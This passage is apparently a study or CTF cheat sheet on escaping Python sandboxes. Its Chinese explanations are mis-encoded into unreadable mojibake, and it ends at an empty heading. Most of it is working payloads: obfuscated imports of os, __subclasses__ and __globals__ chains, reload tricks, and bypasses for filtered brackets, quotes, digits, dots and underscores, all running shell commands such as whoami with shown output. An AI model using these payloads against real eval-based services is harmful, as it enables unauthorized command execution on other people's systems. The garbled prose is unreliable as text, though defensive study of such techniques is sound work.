1. `import os`å¯ä»¥ï¼Œä¸­é—´çš„空格输入几个都å¯ä»¥ï¼Œ`import   os`

2. `__import__`：`__import__('os')`

3.  `importlib`：`importlib.import_module('os').system('ls')`

4. 也å¯ä»¥ç›´æ¥æ‰§è¡Œä¸€é需è¦å¯¼å…¥çš„库进行导入

   `Python2.x`

   ```python
   execfile('/usr/lib/python2.7/os.py')
   system('ls')
   ```

   `Python2.x`和`Python3.x`通用

   ```python
   with open('/usr/lib/python3.9/os.py') as f:
       exec(f.read())
   system('ls')
   ```

   ä¸è¿‡è¦ä½¿ç”¨ä¸Šé¢çš„这两ç§æ–¹æ³•ï¼Œå°±å¿…须知é“库的路径。其å®åœ¨å¤§å¤šæ•°çš„ç¯å¢ƒä¸‹ï¼Œåº“éƒ½æ˜¯é»˜è®¤è·¯å¾„ã€‚å¦‚æœ `sys `没被干æ‰çš„è¯ï¼Œè¿˜å¯ä»¥ç¡®è®¤ä¸€ä¸‹

   ```python
   import sys
   print(sys.path)
   ```

### 花å¼å¤„ç†å­—符串

倒置，baseç¼–ç ï¼Œhex，字符串拼æ¥ï¼Œrot13等等，å†é€šè¿‡åˆ©ç”¨`eval`或者`exec`

- `__import__('so'[::-1]).system('dir')`
- `eval(')"imaohw"(metsys.)"so"(__tropmi__'[::-1])`
- `eval(__import__('base64').b64decode('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2Rpcicp').decode('utf-8'))`
- `eval(b'1'.fromhex('5f5f696d706f72745f5f28276f7327292e73797374656d28276469722729').decode('utf-8'))`
- `eval(bytes.fromhex('5f5f696d706f72745f5f28276f7327292e73797374656d28276469722729').decode('utf-8'))`
- `a='o';b='s';__import__(a+b).system('dir')`

### sys.modules

`sys.modules` 是一个字典，里é¢å‚¨å­˜äº†åŠ è½½è¿‡çš„模å—ä¿¡æ¯ã€‚å¦‚æœ Python 是刚å¯åŠ¨çš„è¯ï¼Œæ‰€åˆ—出的模å—就是解释器在å¯åŠ¨æ—¶è‡ªåŠ¨åŠ è½½çš„模å—。有些库例如 `os` 是默认被加载进æ¥çš„，但是ä¸èƒ½ç›´æ¥ä½¿ç”¨ï¼ŒåŸå› åœ¨äº sys.modules ä¸­æœªç» import 加载的模å—对当å‰ç©ºé—´æ˜¯ä¸å¯è§çš„。

如æœå°† os ä» sys.modules 中剔除，os 就彻底没法用了：



注æ„，这里ä¸èƒ½ç”¨ `del sys.modules['os']`，因为，当 import 一个模å—时：import A，检查 sys.modules 中是å¦å·²ç»æœ‰ A，如æœæœ‰åˆ™ä¸åŠ è½½ï¼Œå¦‚æœæ²¡æœ‰åˆ™ä¸º A 创建 module 对象，并加载 A。

所以删了 `sys.modules['os']` åªä¼šè®© Python é‡æ–°åŠ è½½ä¸€æ¬¡ os。

看到这你肯定å‘ç°äº†ï¼Œå¯¹äºä¸Šé¢çš„过滤方å¼ï¼Œç»•è¿‡çš„æ–¹å¼å¯ä»¥æ˜¯è¿™æ ·ï¼š


### builtinsã€**builtin**ä¸\_\_builtins\_\_

`builtins`，`__builtin__`ä¸`__builtins__`的区别：首先我们知é“，在 Python 中，有很多函数ä¸éœ€è¦ä»»ä½• import å°±å¯ä»¥ç›´æ¥ä½¿ç”¨ï¼Œä¾‹å¦‚`chr`ã€`open`。之所以å¯ä»¥è¿™æ ·ï¼Œæ˜¯å› ä¸º Python 有个å«`内建模å—`（或者å«å†…建命å空间）的东西，它有一些常用函数，å˜é‡å’Œç±»ã€‚Python 对函数ã€å˜é‡ã€ç±»ç­‰ç­‰çš„查找方å¼æ˜¯æŒ‰ `LEGB` 规则æ¥æ‰¾çš„，其中 B å³ä»£è¡¨å†…建模å—

>**LEGB 规则**
>
>Python 在查找“å称â€æ—¶ï¼Œæ˜¯æŒ‰ç…§ LEGB 规则查找的：`Local-->Enclosed-->Global-->Built in`
>
>- Local 指的就是函数或者类的方法内部
>- Enclosed 指的是嵌套函数（一个函数包裹å¦ä¸€ä¸ªå‡½æ•°ï¼Œé—­åŒ…）
>- Global 指的是模å—中的全局å˜é‡
>- Built in 指的是 Python 为自己ä¿ç•™çš„特殊å称。
>
>如æœæŸä¸ª name 映射在局部(local)命å空间中没有找到，æ¥ä¸‹æ¥å°±ä¼šåœ¨é—­åŒ…作用域(enclosed)进行æœç´¢ï¼Œå¦‚æœé—­åŒ…作用域也没有找到，Python 就会到全局(global)命å空间中进行查找，最å会在内建(built-in)命å空间æœç´¢ （如æœä¸€ä¸ªå称在所有命å空间中都没有找到，就会产生一个 NameError）。
>
>```python
># 测试 LEGB
>
>str = "global"
>
>
>def outer():
>    str = "outer"
>
>    def inner():
>        # 输出inner，这里的str被注释æ‰ä¹‹å就会输出outer，outer被注释æ‰ä¹‹å就会输出global
>        str = "inner"
>        print(str)
>
>    inner()
>
>
>outer()
>```

###### `builtins`ä¸`__builtin__`关系：

在Python2.X版本中，内建模å—被命å为`__builtin__`，而到了Python3.X版本中，å´æ›´å为`builtins`，二者指的都是åŒä¸€ä¸ªä¸œè¥¿ï¼Œåªæ˜¯åå­—ä¸åŒè€Œå·²ã€‚

当使用内建模å—中函数，å˜é‡å’Œç±»ç­‰åŠŸèƒ½æ—¶ï¼Œå¯ä»¥ç›´æ¥ä½¿ç”¨ï¼Œä¸ç”¨æ·»åŠ å†…建模å—çš„å字，也ä¸ç”¨æ‰‹åŠ¨å¯¼å…¥å†…建模å—。但是，如æœæƒ³è¦å‘内建模å—修改或者添加一些功能，以便在程åºå…¶ä»–地方使用时， 这时需è¦æ‰‹åŠ¨import。

2.x：

```
>>> import __builtin__
>>> __builtin__
<module '__builtin__' (built-in)>
```

3.x：

```
>>> import builtins
>>> builtins
<module 'builtins' (built-in)>
```

###### `__builtins__`

`__builtins__`åŒæ—¶å­˜åœ¨äºPython2.Xå’ŒPython3.X中，简å•åœ°è¯´ï¼Œå®ƒå°±æ˜¯å¯¹å†…建模å—一个引用。

- `__builtins__`就是内建模å—的一个引用。

- 虽然是一个引用，但`__builtins__`和内建模å—是有一点区别的：

  1. è¦æƒ³ä½¿ç”¨å†…建模å—，都必须手动import内建模å—，而对äº`__builtins__`å´ä¸ç”¨å¯¼å…¥ï¼Œå®ƒåœ¨ä»»ä½•æ¨¡å—都直æ¥å¯è§ï¼Œ 有些情况下å¯ä»¥æŠŠå®ƒå½“作内建模å—ç›´æ¥ä½¿ç”¨ã€‚

  2. `__builtins__`虽是对内建模å—的引用，但这个引用è¦çœ‹æ˜¯ä½¿ç”¨`__builtins__`的模å—是哪个模å—
     在主模å—\_\_main\_\_中：
     `__builtins__`是对内建模å—`__builtin__`本身的引用，å³`__builtins__`完全等价äº`__builtin__`，二者完全是一个东西，ä¸åˆ†å½¼æ­¤ã€‚此时，`__builtins__`çš„ç±»å‹æ˜¯æ¨¡å—ç±»å‹ã€‚

     在é\_\_main\_\_模å—中：
     `__builtins__`仅是对`__builtin__.__dict__`的引用，而é`__builtin__`本身。它在任何地方都å¯è§ã€‚此时`__builtins__`çš„ç±»å‹æ˜¯å­—典。

     [具体效æœå¯ä»¥æŸ¥çœ‹è¯¥demo](./demo/SSTIdemo/SSTIclassdemo.py)
     

###### 利用

ä¸ç®¡æ€ä¹ˆæ ·ï¼Œ`__builtins__` 相对å®ç”¨ä¸€ç‚¹ï¼Œå¹¶ä¸”在 `__builtins__`里有很多好东西：

```python
>>> '__import__' in dir(__builtins__)
True
>>> 'eval' in dir(__builtins__)
True
>>> 'exec' in dir(__builtins__)
True
>>> 'open' in dir(__builtins__)
True
```



```
>>> __builtins__.__dict__['eval']("print('aabbccd')")
aabbccd
>>> __builtins__.exec("import os\nos.system('dir')")
 驱动器 C 中的å·æ˜¯ Windows-SSD
 å·çš„åºåˆ—å·æ˜¯ DC5D-17E8

 C:\Users\Lenovo 的目录
```



那么既然`__builtins__`有这么多å±é™©çš„函数，ä¸å¦‚将里é¢çš„å±é™©å‡½æ•°ç ´å了：

```
__builtins__.__dict__['eval'] = 'not allowed'
```

或者直æ¥åˆ äº†ï¼š

```
del __builtins__.__dict__['eval']
```

但是我们å¯ä»¥åˆ©ç”¨ `reload(__builtins__)` æ¥æ¢å¤ `__builtins__`。ä¸è¿‡ï¼Œæˆ‘们在使用 `reload` 的时候也没导入，说æ˜`reload`也在 `__builtins__`里，那如æœè¿`reload`都ä»`__builtins__`中删了，就没法æ¢å¤`__builtins__`了，需è¦å¦å¯»ä»–法。

3.8 3.9 ç»æµ‹è¯•å·²ç»æ— æ³•æ¢å¤ï¼Œ2.7 å¯ä»¥



这里注æ„，在 Python 3.4 之å‰çš„版本中，`reload()` 函数是一个内置函数，3.4之åéœ€è¦ `import imp`，然åå† `imp.reload`ï¼Œä» Python 3.4 之å，建议使用 `importlib` 模å—中的 `importlib.reload()` 函数æ¥é‡æ–°åŠ è½½æ¨¡å—，因为 `imp` 模å—在未æ¥çš„版本中å¯èƒ½ä¼šè¢«ç§»é™¤ã€‚

### 花å¼æ‰§è¡Œå‡½æ•°

在 Python 中执行系统命令的方å¼æœ‰ï¼š

```
os
commands：仅é™2.x
subprocess
timeit：timeit.sysã€timeit.timeit("__import__('os').system('whoami')", number=1)
platform：platform.osã€platform.sysã€platform.popen('whoami', mode='r', bufsize=-1).read()
pty：pty.spawn('ls')ã€pty.os
bdb：bdb.osã€cgi.sys
cgi：cgi.osã€cgi.sys
...
```

通过上é¢å†…容我们很容易å‘ç°ï¼Œå…‰å¼•å…¥`os`åªä¸è¿‡æ˜¯ç¬¬ä¸€æ­¥ï¼Œå¦‚æœæŠŠ`system`这个函数干æ‰ï¼Œä¹Ÿæ²¡æ³•é€šè¿‡`os.system`执行系统命令，并且这里的`system`也ä¸æ˜¯å­—符串，也没法直æ¥åšç¼–ç ç­‰ç­‰æ“作。

ä¸è¿‡ï¼Œè¦æ˜ç¡®çš„是，os 中能够执行系统命令的函数有很多：

```
print(os.system('whoami'))
print(os.popen('whoami').read()) 
print(os.popen2('whoami').read()) # 2.x
print(os.popen3('whoami').read()) # 2.x
print(os.popen4('whoami').read()) # 2.x
...
```

应该还有一些，å¯ä»¥åœ¨è¿™é‡Œæ‰¾æ‰¾ï¼š

[2.x ä¼ é€é—¨](https://docs.python.org/2/library/os.html)

[3.x ä¼ é€é—¨](https://docs.python.org/3/library/os.html)

过滤`system`的时候说ä¸å®šè¿˜æœ‰å…¶ä»–函数给æ¼äº†ã€‚

其次，å¯ä»¥é€šè¿‡ `getattr` 拿到对象的方法ã€å±æ€§ï¼š

```
import os
getattr(os, 'metsys'[::-1])('whoami')
```

ä¸è®©å‡ºç° import也没事：

```
>>> getattr(getattr(__builtins__, '__tropmi__'[::-1])('so'[::-1]), 'metsys'[::-1])('whoami')
desktop-13qds1a\lenovo
0
```

ä¸ `getattr` 相似的还有 `__getattr__`ã€`__getattribute__`，它们自己的区别就是`getattr`相当äº`class.attr`，都是è·å–ç±»å±æ€§/方法的一ç§æ–¹å¼ï¼Œåœ¨è·å–的时候会触å‘`__getattribute__`，如æœ`__getattribute__`找ä¸åˆ°ï¼Œåˆ™è§¦å‘`__getattr__`，还找ä¸åˆ°åˆ™æŠ¥é”™ã€‚更具体的这里就ä¸è§£é‡Šäº†ï¼Œä¸‹é¢æœ‰ã€‚

### 通过继承关系逃逸

*[这里](#Python中的一些 Magic Method)

```
>>> for i in enumerate(''.__class__.__base__.__subclasses__()): print(i)
```

Python 中有个å±æ€§ï¼Œ`.__mro__` 或 `.mro()`，是个元组，记录了继承关系：

```
>>> '1'.__class__.mro()
[<class 'str'>, <class 'object'>]
>>> '1'.__class__.__mro__
(<class 'str'>, <class 'object'>)
```

类的å®ä¾‹åœ¨è·å– `__class__` å±æ€§æ—¶ä¼šæŒ‡å‘该å®ä¾‹å¯¹åº”的类。å¯ä»¥çœ‹åˆ°ï¼Œ`''`å±äº `str`类，它继承了 `object` 类，这个类是所有类的超类。具有相åŒåŠŸèƒ½çš„还有`__base__`å’Œ`__bases__`。需è¦æ³¨æ„的是，ç»å…¸ç±»éœ€è¦æŒ‡æ˜ç»§æ‰¿ object æ‰ä¼šç»§æ‰¿å®ƒï¼Œå¦åˆ™æ˜¯ä¸ä¼šç»§æ‰¿çš„（Python 3.9 测试无需指æ˜ï¼‰

那么知é“这个有什么用呢？

ç”±äºæ²¡æ³•ç›´æ¥å¼•å…¥ os，那么å‡å¦‚有个库å«`oos`，在`oos`中引入了`os`，那么我们就å¯ä»¥é€šè¿‡`__globals__`拿到 `os`。例如，`site` 这个库就有 `os`：

```
>>> __import__('site').os
<module 'os' from 'C:\\Users\\Lenovo\\AppData\\Local\\Programs\\Python\\Python39\\lib\\os.py'>
```

`__globals__` 是函数所在的全局命å空间中所定义的全局å˜é‡ã€‚也就是åªè¦æ˜¯å‡½æ•°å°±ä¼šæœ‰è¿™ä¸ªå±æ€§ã€‚注æ„，`__globals__`调用的是当å‰å…¨å±€å‘½å空间中的å˜é‡ï¼Œä¸æ˜¯ç±»ä¸­çš„å˜é‡


>1. `builtin_function_or_method` ç±»å‹å‡½æ•°ï¼š
>   - `builtin_function_or_method` 是 Python 中内置函数（built-in functions）的类å‹ï¼Œè¿™äº›å‡½æ•°æ˜¯ Python 解释器内置的一些常用功能函数，例如 `print()`ã€`len()`ã€`range()` 等。
>2. `wrapper_descriptor` ç±»å‹å‡½æ•°ï¼š
>   - `wrapper_descriptor` 是 Python 中的æ述符（descriptor）类å‹ï¼Œå®ƒæ˜¯ç”¨äºå®ç°ç‰¹å®šå±æ€§è®¿é—®é€»è¾‘的一ç§å¯¹è±¡ã€‚通常，它是由类的特殊方法（如 `__get__()`ã€`__set__()` 等）定义的。
>3. `method-wrapper` ç±»å‹å‡½æ•°ï¼š
>   - `method-wrapper` 是 Python 中包装（wrapper）方法的类å‹ã€‚当类的方法被调用时，Python 会自动创建一个 `method-wrapper` 对象æ¥åŒ…装该方法，ä»è€Œæä¾›é¢å¤–的功能或处ç†ã€‚
>4. `method_descriptor`:
>   - 表示 Python 内置方法（built-in methods）的类对象。注æ„，ä¸æ˜¯å®ä¾‹ï¼Œä¸ªäººç†è§£ä¸ºæ˜¯å†…建函数的类，将其å®ä¾‹åŒ–åæˆä¸ºå†…建函数`builtin_function_or_method` ç±»å‹å‡½æ•°
>   - 这些内置方法是针对ä¸åŒç±»å‹çš„内置对象æ供的方法，å¯ä»¥åœ¨å¯¹åº”的对象上直æ¥è°ƒç”¨ã€‚
>   - 内置方法ä¸ç‰¹å®šçš„æ•°æ®ç±»å‹ç›¸å…³ï¼Œæ¯”如字符串类å‹çš„方法 `str.upper()`ã€`str.lower()`，列表类å‹çš„方法 `list.append()`ã€`list.pop()`，字典类å‹çš„方法 `dict.get()`ã€`dict.keys()` 等。
>
>```
>>>> ''.strip
><built-in method strip of str object at 0x000001A4174D4670>
>
>```
>
>å…³äº`method_descriptor`:
>
>åŸç†ï¼š
>
>```reasonml
>class C:
>    def method(self, arg):
>        print "In C.method, with", arg
>
>o = C()
>o.method(1)
>C.method(o, 1)
># Prints:
># In C.method, with 1
># In C.method, with 1
>```
>
>`o.method(1)` å¯ä»¥çœ‹ä½œæ˜¯ `C.method(o, 1)`的简写。

能引入 site çš„è¯ï¼Œå°±ç›¸å½“äºæœ‰ os。

那么也就是说，能引入 site çš„è¯ï¼Œå°±ç›¸å½“äºæœ‰ osã€‚é‚£å¦‚æœ site 也被ç¦ç”¨äº†å‘¢ï¼Ÿæ²¡äº‹ï¼Œæœ¬æ¥ä¹Ÿå°±æ²¡æ‰“ç®—ç›´æ¥ `import site`。å¯ä»¥åˆ©ç”¨ `reload`，å˜ç›¸åŠ è½½ `os`：

```
>>> import site
>>> site.os
<module 'os' from 'C:\\Users\\Lenovo\\AppData\\Local\\Programs\\Python\\Python39\\lib\\os.py'>
>>> del site.os
>>> site.os
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
AttributeError: module 'site' has no attribute 'os'
>>> __import__('importlib').reload(site)
<module 'site' from 'C:\\Users\\Lenovo\\AppData\\Local\\Programs\\Python\\Python39\\lib\\site.py'>
>>> site.os
<module 'os' from 'C:\\Users\\Lenovo\\AppData\\Local\\Programs\\Python\\Python39\\lib\\os.py'>
>>>
```

所有的类都继承的`object`，那么我们先用`__subclasses__`看看它的å­ç±»ï¼Œåœ¨å­ç±»ä¸­é€‰æ‹©å‡ºå¯ä»¥åˆ©ç”¨çš„类。

学习通过列表æ¨å¯¼å¼æ‰§è¡Œ

```
[i.load_module('os').system('whoami') for i in ''.__class__.__mro__[-1].__subclasses__() if i.__name__ == 'BuiltinImporter']
```

利用`builtin_function_or_method` çš„ `__call__`，首先需è¦æ‰¾åˆ°`builtin_function_or_method`ç±»å‹çš„函数，也就是内建函数

```
''.__class__.__base__.__subclasses__()[80].__init__.__globals__['__builtins__']['len'].__class__.__call__(eval, '1+1')

>>> "".__class__.__mro__[-1].__subclasses__()[22]().strip.__class__.__call__(eval, '__import__("os").system("whoami")')
desktop-13qds1a\lenovo
0

简å•ä¸€ç‚¹çš„paylaod
>>> ''.strip.__class__
<class 'builtin_function_or_method'>
>>> ''.strip.__class__.__call__(eval, '1+2')
3
```

### 文件读写

2.x 有个内建的 `file`：

```
>>> file('key').read()
'Macr0phag3\n'
>>> file('key', 'w').write('Macr0phag3')
>>> file('key').read()
'Macr0phag3'

DELPHI
```


还有个 `open`，2.x ä¸ 3.x 通用。

还有一些库，例如：`types.FileType`(rw)ã€`platform.popen`(rw)ã€`linecache.getlines`(r)。

如æœèƒ½å†™ï¼Œå¯ä»¥å°†ç±»ä¼¼çš„文件ä¿å­˜ä¸º`math.py`，然å import è¿›æ¥ï¼š
math.py：

```
print(__import__('os').system('whoami'))
```

调用`import math`

这里需è¦æ³¨æ„的是，这里 py 文件命å是有技巧的。之所以è¦æŒ‘一个常用的标准库是因为过滤库åå¯èƒ½é‡‡ç”¨çš„是白åå•ã€‚并且之å‰è¯´è¿‡æœ‰äº›åº“是在`sys.modules`中有的，这些库无法这样利用，会直æ¥ä»`sys.modules`中加入，比如`re`：

```
>>> 're' in __import__('sys').modules
True
>>> 'math' in __import__('sys').modules
False
```

这里的文件命å需è¦æ³¨æ„的地方：由äºå¾…æµ‹è¯•çš„åº“ä¸­æœ‰ä¸ªå« `test`的，如æœæŠŠæµ‹è¯•çš„文件也命å为 test，会导致那个文件è¿è¡Œ 2 次，因为自己 import 了自己。

math.py

```
import math

...
```

è·å–æ•æ„Ÿä¿¡æ¯ï¼š

1. `dir()`
2. `__import__("__main__").x`，其中 `__main__` 还会泄露脚本的ç»å¯¹è·¯å¾„：`<module '__main__' from 'xxx.py'>`
3. `__file__`，文件ç»å¯¹è·¯å¾„
4. `x.__dict__`
5. `locals()`
6. `globals()`
7. `vars()`
8. `sys._getframe(0).f_code.co_varnames`
9. `sys._getframe(0).f_locals`
10. `inspect.x`，inspect 有很多方法å¯ä»¥è·å–ä¿¡æ¯ï¼Œæ¯”如è·å–æºç å¯ä»¥ç”¨ `inspect.getsource`，还有其他很多的功能
11. 

### 绕waf

>`__getitem__` 是 Python 中的特殊方法之一，用äºæ”¯æŒå¯¹è±¡çš„索引æ“作。当一个对象定义了 `__getitem__` 方法时，它就å¯ä»¥åƒåºåˆ—（如列表ã€å…ƒç»„等）一样进行索引和切片æ“作。
>
>在 Python ä¸­ï¼Œæˆ‘ä»¬é€šå¸¸ä½¿ç”¨æ–¹æ‹¬å· `[]` æ¥å¯¹åºåˆ—ç±»å‹çš„对象进行索引æ“作。例如，对äºåˆ—表 `my_list`，我们å¯ä»¥ä½¿ç”¨ `my_list[index]` æ¥è·å–列表中指定索引ä½ç½®çš„元素。当 `my_list` 定义了 `__getitem__` 方法时，这个索引æ“作就会调用对象的 `__getitem__` 方法，æ¥å®ç°å¯¹å…ƒç´ çš„è·å–。

>`__new__` 是 Python 中的一个特殊方法，用äºåˆ›å»ºç±»çš„å®ä¾‹ï¼ˆå¯¹è±¡ï¼‰ã€‚它是一个é™æ€æ–¹æ³•ï¼Œè´Ÿè´£åœ¨å¯¹è±¡åˆ›å»ºä¹‹å‰åˆ†é…内存空间，并返å›ä¸€ä¸ªæ–°çš„å®ä¾‹ã€‚
>
>在 Python 中，对象的创建通常是通过调用类的æ„造函数 `__init__` å®ç°çš„。`__init__` 方法用äºå¯¹å®ä¾‹è¿›è¡Œåˆå§‹åŒ–æ“作，而 `__new__` 方法则用äºå®é™…的对象创建。
>
>当我们创建一个类的å®ä¾‹æ—¶ï¼ŒPython 解释器会首先调用 `__new__` 方法æ¥åˆ›å»ºä¸€ä¸ªæ–°çš„å®ä¾‹å¯¹è±¡ï¼Œå¹¶å°†è¯¥å®ä¾‹å¯¹è±¡ä½œä¸ºç¬¬ä¸€ä¸ªå‚数传递给 `__init__` 方法。然å，`__init__` 方法在这个å®ä¾‹å¯¹è±¡ä¸Šæ‰§è¡Œåˆå§‹åŒ–æ“作。

###### 过滤[]

应对的方å¼å°±æ˜¯å°†`[]`的功能用`pop`ã€`__getitem__` 代替（å®é™…上`a[0]`就是在内部调用了`a.__getitem__(0)`）：

```
>>> "".__class__.__mro__[-1].__subclasses__()[7].__new__.__class__.__call__(eval, "1+1")
2
>>> "".__class__.__mro__.__getitem__(-1).__subclasses__().pop(7).__new__.__class__.__call__(eval, "1+1")
2
```

dict 也是å¯ä»¥ pop 的：`{"a": 123}.pop("a")`，也å¯ä»¥`dict.get(key, default)`

```
>>> {'a': 123}.pop('a')
123
>>> {'a': 123}.get('a')
123
>>> {'a': 123}.get('b', 456)
456
```

当然也å¯ä»¥ç”¨ `next(iter())` 替代，或许å¯ä»¥åŠ ä¸Š `max` 之类的ç©æ„。

```
>>> max(['1','2','3','4','5','6','7','8','a','b','0', 'csdzxc', '-1'])
'csdzxc'
>>> next(iter(['1','2','3','4','5','6','7','8','a','b','0', 'csdzxc', '-1']))
'1'
>>> min(['1','2','3','4','5','6','7','8','a','b','0', 'csdzxc', '-1'])
'-1'
```

###### **过滤引å·**

**`chr()`：将一个Unicodeç¼–ç å¯¹åº”的整数值转æ¢ä¸ºå¯¹åº”的字符，直æ¥ç”¨chr把字符串拼出æ¥**

```
>>> __import__('os').system(chr(119)+chr(104)+chr(111)+chr(97)+chr(109)+chr(105))
desktop-13qds1a\lenovo
0
```

**扣字符：挨个把字符拼æ¥å‡ºæ¥ï¼Œåˆ©ç”¨ `str` å’Œ `[]`**

```
>>> __import__('os').system(str(().__class__.__new__)[21]+str(().__class__.__new__)[13]+str(().__class__.__new__)[14]+str(().__class__.__new__)[40]+str(().__class__.__new__)[10]+str(().__class__.__new__)[3])
desktop-13qds1a\lenovo
0
>>> str(().__class__.__new__)[21]+str(().__class__.__new__)[13]+str(().__class__.__new__)[14]+str(().__class__.__new__)[40]+str(().__class__.__new__)[10]+str(().__class__.__new__)[3]
'whoami'
```

`[]` 如æœè¢«è¿‡æ»¤äº†ä¹Ÿå¯ä»¥bypass，`str`被过滤了就用class给他æ„造出æ¥ï¼Œ`''.__class__()`ã€`type('')()`ã€`format()` å³å¯ï¼ŒåŒç†ï¼Œ`int`ã€`list` 有的也都是适用，å¯ä»¥é€šè¿‡`.__class__()`ã€`type('')()`æ„造出æ¥ï¼Œä¹Ÿå¯ä»¥å…ˆæŸ¥çœ‹åŸºç±»ï¼Œå†ä»åŸºç±»å­ç±»æ‰¾åˆ°`str`或者`int`类。

```
>>> ''.__class__.__base__.__subclasses__()[4]
<class 'int'>
```

```
>>> format(1,'d')
'1'
>>> format(11,'x')
'b'
>>> format(10,'x')
'a'
>>> chr(100).__class__(chr(100).__class__.__new__)
'<built-in method __new__ of type object at 0x00007FF803385140>'
>>> chr(100).__class__(chr(100).__class__.__new__).__getitem__(14)
'o'
```

也å¯ä»¥ä½¿ç”¨åˆ—表的 `join()` 方法æ¥è¿æ¥åˆ—表中的元素æˆä¸ºä¸€ä¸ªå­—符串

**æ ¼å¼åŒ–字符串：那过滤了引å·ï¼Œæ ¼å¼åŒ–字符串还能用å—？**

`(chr(37)+str({}.__class__)[1])%100 == 'd'`

`('%c') % 100` 是一个字符串格å¼åŒ–æ“作，它将整数 `100` æ ¼å¼åŒ–为一个字符，并返å›ç›¸åº”的字符。，`'%c'` 是一ç§æ ¼å¼æŒ‡ä»¤ï¼Œç”¨äºæ ¼å¼åŒ–一个整数为对应的字符。整数 `100` 对应的字符是 ASCII 表中的字符 'd'。

```
>>> chr(37)
'%'
>>> chr(37)+str({}.__class__)[1]
'%c'
>>> (chr(37)+str({}.__class__)[1])%100
'd'
```

**dictæ‹¿é”®**

`'whoami' == list(dict(whoami=1))[0] == str(dict(whoami=1))[2:8]`

```
>>> dict(whoami=1).keys()
dict_keys(['whoami'])
>>> ''.__class__(dict(whoami=1).keys())
"dict_keys(['whoami'])"
>>> repr(dict(whoami=1).keys())
"dict_keys(['whoami'])"
>>> list(dict(whoami=1).keys()).pop()
'whoami'
```

###### 过滤数字

>`any()` 是 Python 的一个内置函数，用äºåˆ¤æ–­ç»™å®šçš„å¯è¿­ä»£å¯¹è±¡ä¸­æ˜¯å¦æœ‰è‡³å°‘一个元素为 True æˆ–ç­‰ä»·äº True 的元素。如æœå¯è¿­ä»£å¯¹è±¡ä¸­è‡³å°‘有一个元素为 True，则 `any()` è¿”å› True；如æœå¯è¿­ä»£å¯¹è±¡ä¸­æ‰€æœ‰å…ƒç´ éƒ½ä¸º False，则 `any()` è¿”å› False。
>
>`all()` 是 Python 的一个内置函数，用äºæ£€æŸ¥å¯è¿­ä»£å¯¹è±¡ä¸­çš„所有元素是å¦éƒ½ä¸º True æˆ–ç­‰ä»·äº True。如æœå¯è¿­ä»£å¯¹è±¡ä¸­çš„所有元素都为 True æˆ–ç­‰ä»·äº True，则 `all()` è¿”å› True；如æœå¯è¿­ä»£å¯¹è±¡ä¸­å­˜åœ¨ä»»ä½•ä¸€ä¸ªå…ƒç´ ä¸º False æˆ–ç­‰ä»·äº False，则 `all()` è¿”å› False。

1. 0：`int(bool([]))`ã€`Flase`ã€`len([])`ã€`any(())`
2. 1：`int(bool([""]))`ã€`True`ã€`all(())`ã€`int(list(list(dict(aá=())).pop()).pop())`
3. è·å–ç¨å¾®å¤§çš„数字：`len(str({}.keys))`，ä¸è¿‡éœ€è¦æ…¢æ…¢æ‰¾é•¿åº¦ç¬¦åˆçš„字符串
4. 1.0：`float(True)`
5. -1：`~0`

```
>>> ''.__class__.__base__.__subclasses__()[4]
<class 'int'>
>>> ''.__class__.__base__.__subclasses__()[4]('1')
1
>>> ''.__class__.__base__.__subclasses__()[4](bool())
0
>>> ''.__class__.__base__.__subclasses__()[4](bool(['']))
1
```

å…¶å®æœ‰äº† `0` å°±å¯ä»¥äº†ï¼Œè¦å•¥æ•´æ•°ç›´æ¥åšè¿ç®—å³å¯ï¼š

```
0 ** 0 == 1
1 + 1 == 2
2 + 1 == 3
2 ** 2 == 4
...

```

ä»»æ„浮点数ç¨å¾®éº»çƒ¦ç‚¹ï¼Œéœ€è¦æƒ³åŠæ³•è¿ç®—，但是一定å¯ä»¥æ出æ¥ï¼Œé™¤é是 Ï€ è¿™ç§ç©æ„.

```
>>> ''.__class__.__base__.__subclasses__()[26](''.__class__.__base__.__subclasses__()[22](''.__class__.__base__.__subclasses__()[4](bool()))+'.'+''.__class__.__base__.__subclasses__()[22](''.__class__.__base__.__subclasses__()[4](bool(['']))))
```

###### é™åˆ¶ç©ºæ ¼

空格通常æ¥è¯´å¯ä»¥é€šè¿‡ `()`ã€`[]` 替æ¢æ‰ã€‚例如：

`[i for i in range(10) if i == 5]` å¯ä»¥æ›¿æ¢ä¸º `[[i][0]for(i)in(range(10))if(i)==5]`

```
>>> [i for i in range(5)]
[0, 1, 2, 3, 4]
>>> [(i)for(i)in(range(5))]
[0, 1, 2, 3, 4]
```

###### 过滤点å·

```
getattr(object, name[, default])
```

- `object`：è¦è·å–å±æ€§çš„对象。
- `name`：å±æ€§çš„å称。
- `default`：å¯é€‰å‚数，指定当å±æ€§ä¸å­˜åœ¨æ—¶è¿”å›çš„默认值。

```
>>> getattr(getattr(getattr(getattr(getattr('', '__class__'), '__base__'), '__subclasses__')()[139], '__init__'), '__globals__')['system']('whoami')
desktop-13qds1a\lenovo
0
```

###### 过滤下划线

`dir([object])` 是 Python 的一个内置函数，用äºè·å–对象的所有å±æ€§å’Œæ–¹æ³•çš„列表。它返å›ä¸€ä¸ªåŒ…å«å¯¹è±¡æ‰€æœ‰å±æ€§ã€æ–¹æ³•å称的列表。`object`å¯é€‰å‚数，表示è¦æŸ¥æ‰¾å±æ€§å’Œæ–¹æ³•çš„对象。如æœä¸æä¾› `object` å‚数，则 `dir()` è¿”å›å½“å‰ä½œç”¨åŸŸä¸­çš„所有å称。

```
>>> dir(0)
['__abs__', '__add__', '__and__', '__bool__', '__ceil__', '__class__', '__delattr__', '__dir__', '__divmod__', '__doc__', '__eq__', '__float__', '__floor__', '__floordiv__', '__format__', '__ge__', '__getattribute__', '__getnewargs__', '__gt__', '__hash__', '__index__', '__init__', '__init_subclass__', '__int__', '__invert__', '__le__', '__lshift__', '__lt__', '__mod__', '__mul__', '__ne__', '__neg__', '__new__', '__or__', '__pos__', '__pow__', '__radd__', '__rand__', '__rdivmod__', '__reduce__', '__reduce_ex__', '__repr__', '__rfloordiv__', '__rlshift__', '__rmod__', '__rmul__', '__ror__', '__round__', '__rpow__', '__rrshift__', '__rshift__', '__rsub__', '__rtruediv__', '__rxor__', '__setattr__', '__sizeof__', '__str__', '__sub__', '__subclasshook__', '__truediv__', '__trunc__', '__xor__', 'as_integer_ratio', 'bit_length', 'conjugate', 'denominator', 'from_bytes', 'imag', 'numerator', 'real', 'to_bytes']
>>> dir(0)[0]
'__abs__'
>>> dir(0)[0][0]
'_'
>>> dir(0)[0][0]*2
'__'
```

###### 过滤è¿ç®—符

